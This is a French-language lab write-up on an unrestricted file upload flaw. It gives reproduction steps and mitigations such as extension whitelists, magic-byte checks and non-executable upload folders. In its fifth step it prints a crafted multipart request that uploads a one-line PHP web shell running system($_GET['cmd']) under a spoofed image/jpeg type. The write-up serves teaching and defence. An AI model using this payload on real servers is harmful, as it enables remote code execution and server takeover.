


# Unrestricted File Upload (UFU)




## Description

La vulnérabilité Unrestricted File Upload se produit lorsqu’une application web autorise un utilisateur à envoyer un fichier sans effectuer les contrôles nécessaires.  
Cela peut permettre à un attaquant d’uploader un script (par exemple PHP) et d’obtenir une exécution de code à distance (RCE) sur le serveur.


## Comment reproduire la faille

1. Aller sur la page Add Image ou `http://<IP_ADRESS>/?page=upload#`

2. Faire une inspection (F12) sur le formulaire et constater qu'il n'y a pas de contrôle strict effectué sur les fichiers téléchargés

3. Télécharger une image (ici, ce sont les formats .jpeg qui renvoi un message du serveur)

4. Aller dans le network (F12) et faire un ré envoi (resend) sur la requête POST

5. Remplacer le contenu du fichier par un script PHP ainsi que le filename par index.php (pour que celui ci devienne un exécutable):
    ```
    ------boundary
    Content-Disposition: form-data; name="uploaded"; filename="index.php"
    Content-Type: image/jpeg

    <?php echo "OK"; system($_GET["cmd"]); ?>
    ------boundary--
    ```
    Note : on laisse Content-Type: image/jpeg pour contourner la validation.



5. Envoyer la mdofication

6. Regarder la réponse de la requête


## Recommandation pour empêcher la faille

* Vérifier strictement l’extension réelle comme:
    * Comparer le filename
    * Vérifier le MIME réel (magic bytes)

* Renommer les fichiers uploadés en appliquant notamment un hash ou un UUID

* Bloquer les extensions dangereuses: .php, .phtml, .php5, .sh, .js, .cgi, etc.

* Stocker les uploads hors du répertoire web pour éviter leur exécution directe.

* Imposer une whitelist stricte et ainsi limiter aux seules extensions d’images : .png, .jpg, .jpeg, .gif

* Analyser le contenu réel du fichier

* Désactiver l’interprétation du PHP dans le dossier d’upload

## Conclusion

La faille Unrestricted File Upload permet d’envoyer un fichier contenant du code malveillant. Grâce à l’absence de validation et à un répertoire accessible publiquement, il est possible d’exécuter le script sur le serveur et d’obtenir une exécution de code à distance (RCE).

Cette faille est critique et peut mener au compromis total du serveur.
L’application doit appliquer des contrôles stricts et isoler les fichiers uploadés afin de prévenir ce type d’attaque.